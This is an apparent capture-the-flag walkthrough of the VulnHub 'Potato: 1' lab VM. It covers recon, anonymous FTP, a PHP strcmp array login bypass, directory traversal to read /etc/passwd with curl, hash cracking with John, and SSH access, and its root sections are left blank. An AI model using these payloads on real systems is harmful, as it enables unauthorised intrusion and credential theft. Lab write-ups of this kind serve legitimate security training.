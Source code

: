 # Potato: 1 Walkthrough

## Preparation
1. Download Potato.ova file ([Potato.ova](https://download.vulnhub.com/potato/Potato.ova))
1. Import the OVA file in the VirtualBox
1. Set the network adapter to Host-only Adapter
![Host-onlyAdapter](./img/potato_server_network.png)
1. Start the Potato virtual machine
![StartPotato](./img/potato_server_initial.png)
1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  
![netdiscover](./img/potato_server1.png)
![PotatoIP-Address](./img/potato_server2.png)
    * 192.168.56.100: DHCP Server
    * **192.168.56.102**: Potato Server
1. Set the Potato IP address to the environment variance  
`export IP=192.168.56.102`  

## Reconnaissance
1. Do portscan using Nmap  
`sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
![nmap](./img/potato_server3.png)
    * -sC: Scan with default script
    * -sV: Show software name and the version
    * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
    * -p-: Scan all ports (from 0 to 65535 ports)
    * -oN: Output the scan results to the specified file
1. As we see the nmap result, we can attempt to log in with AnonymousFTP.  

## Initial Access
1. Access the FTP service  
`ftp $IP 2112`  
![FTP-Access](./img/potato_server4.png)
    * Name: anonymous
    * Password: password (empty is OK)
1. Get index.php.bak and welcome.msg files
![GetFiles](./img/potato_server5.png)
1. Exit FTP service  
Input the `exit`.  
1. Confirm the downloaded files
    - Investigate the "welcome.msg" and confirm the content
    ![Welcome.msg](./img/potato_server6.png)  
    There is no useful information in this file.  
    - Investigate the "index.php.bak" and confirm the content
    ![index.php.bak](./img/potato_server7.png)  
    username is fixed to "admin"  
    default pass is "potato"  
1. Since we know the index.php page and the Nmap result shows the 80 port is open, we find accessible files and directories using Gobuster.
    - Set the 80 port URL to the environment variance  
    `export URL="http://$IP:80/"`  
    - Input the following gobuster command  
    `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`  
        * dir: Enumerate directories and files
        * -u: Designate target URL
        * -w: Use dictionary file
    - Find /admin directory
    ![admin_directory](./img/potato_server8.png)
1. Access the /admin page using Burp
    - Proxy -> Intercept -> Intercept on -> Open browser -> Enter "http://192.168.56.102/admin" in the browser  
    - Click "Forward" until Login page is shown
    - Enter "admin" in the User and "test" in the Password and click Login button
    - In the "index.php.bak" file, the password is confirmed using the strcmp() function. In the PHP strcmp() function, we designate an array type, and it causes an error. Unfortunately, "NULL == 0" becomes **True** in PHP specification.
    - Change the input password in the Burp  
    Current: `username=admin&password=test`  
    Changed: `username=admin&password[]=test`  
    ![Burp_password](./img/potato_server9.png)  
    - Change to "Intercept off"
    - Go to the dashboard page and access the Logs page  

## Execution
1. Attempt directory traversal in the Logs page
    - Change to "Intercept on"
    - Select log_01.txt (log_02.txt or log_03.txt is OK) and click the "Get the log" button
    - Change the log_01.txxt file directory  
    Current: `file=log_01.txt`  
    Changed: `../../../../../etc/passwd`  
    ![file_directory](./img/potato_server10.png)
    ![etc_passwd](./img/potato_server11.png)
1. Make /etc/passwd data file using the Cookie pass and curl command  
    - Cookie pass is as follows
    ![Cookie_pass](./img/potato_server12.png)
    - Curl command is as follows  
    `curl -X POST -b "pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" -d 'file=../../../../../etc/passwd' "http://192.168.56.102/admin/dashboard.php?page=log" | tr '\0' '\n' | cat > etc_passwd.txt`  
        * -X: Designate HTTP method
        * -b: Send Cookie
        * -d: Send form as POST request
        * tr '\0' '\n': Replace null with carriage return
        * cat > etc_passwd.txt: Output the command result in the etc_passwd.txt
1. Analyze the etc_passwd.txt
    - Extract login-enabled users using the following command  
    `cat etc_passed.txt | grep -P 'sh$'`  
    ![Login-enabled-users](./img/potato_server13.png)
        * grep -P 'sh$' is used to search for lines in a file that end with the string sh
        * Login-enabled users have "bash" or "sh" in the 7th field
        * There are "root", "floarianges", and "webadmin" users
    - Extract users who have password hash from the etc_passed.txt file  
    `cat etc_passwd.txt | grep -P 'sh$' | grep webadmin > webadmin_hash.txt`  
    - Decrypt password hash using John the Ripper  
    `john webadmin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  
    ![john](./img/potato_server14.png)
        * webadmin password: **dragon**  

## Credential Access for general user
1. SSH access
    - From the Nmap result, as the SSH port is open, we attempt to access SSH
    ![SSH-access](./img/potato_server15.png)
        * password: **dragon**
    - Confirm the home directory and access the user.txt file
    ![General-user-text](./img/potato_server16.png)  

## Privilege Escalation


## Credential Access for root user
